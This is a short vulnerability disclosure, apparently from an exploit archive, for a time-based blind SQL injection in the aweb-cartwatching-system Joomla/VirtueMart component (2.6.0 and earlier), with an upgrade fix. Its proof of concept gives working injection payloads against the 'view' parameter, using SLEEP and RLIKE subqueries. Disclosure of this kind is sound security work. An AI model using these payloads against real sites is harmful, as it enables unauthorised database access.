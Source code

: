  Exploit Title: Sqli Blind Timebased on Joomla + Viertuemart + aweb-cartwatching-system/<= 2.6.0
 Date: 28-12-2016
 Software Link: http://awebsupport.com/products/aweb-cartwatching-system
 Exploit Author: Javi Espejo(qemm)
 Contact: http://twitter.com/javiespejo
 Website: http://raipson.com
 CVE: REQUESTED
 Category: webapps
 
1. Description
   
Any remote user can access to the victim server trough an SQLI Blind Injection on a component of aweb_cartwatching_system and aweb_cart_autosave
This is the code that has the parameters with the parameters not sanitized (IMAGE 1 )  

2. Proof of Concept

I can access to the database through queries with the Timebased vector.
I test with a client environment and I found that the paremeter POST view on http://test.xxxxx.com/es/index.php responds to a vector as follows:
 The first request was
 http://test.xxxxx.com/es/index.php

 POST parameters:
 option
 view
 task
 
Then I saw an strange behavior on the web and then I see that the parameter view responds to an easy timebased query
http://test.xxxxx.com/es/index.php?option=com_virtuemart&view=categorysearch%27+%2F+sleep%285%29+%2F+%27&task=smartSearch


Later I found the next payload

option=com_virtuemart&view=categorysearch' RLIKE (SELECT * FROM (SELECT(SLEEP(5)))sgjA) AND 'jHwz'='jHwz&task=smartSearch and it works and I can access to every database on the client system launching other queries.
   
3. Solution:
   
Update to version 2.6.1 from the update center of joomla.
The Joomla vel publish the vulnerability on
Answer from Joomla VEL "We have added it to the VEL here: https://vel.joomla.org/resolved/1897-aweb-cart-watching-system-2-6-0"
http://awebsupport.com/

Regards 

Qemm
